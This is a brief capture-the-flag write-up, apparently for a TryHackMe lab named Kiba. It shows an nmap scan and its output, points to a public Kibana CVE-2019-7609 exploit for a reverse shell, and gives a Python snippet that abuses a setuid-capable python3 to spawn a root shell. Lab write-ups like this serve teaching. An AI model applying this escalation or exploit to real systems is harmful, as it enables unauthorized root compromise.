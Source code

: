 # Introduction

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx kiba.thm
```

# Enumeration

we do a nmap with some options :\
\
-T4 is for have more threads to accelerate the scan\
-p- is to scan all the ports\
-sV is to scan the version\
\
we run the scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -p- -sV kiba.thm
```

we got these open ports
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
5044/tcp open  lxi-evntsvc?
5601/tcp open  esmagent?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

on port 5601, we found a webapp named Kibana in version 6.5.4\
this webapp display data vizualisation of ElasticSearch data

we found there is a CVE : https://github.com/LandGrey/CVE-2019-7609/tree/master
we can execute arbitrary command to get a reverse shell

by doing a getcap -r / 2>/dev/null, we find a python3 in a subdirectory in our home folder\
it's have the setuid so we can write a little python script
```
import os
os.setuid(0)
os.system("/bin/bash")
```
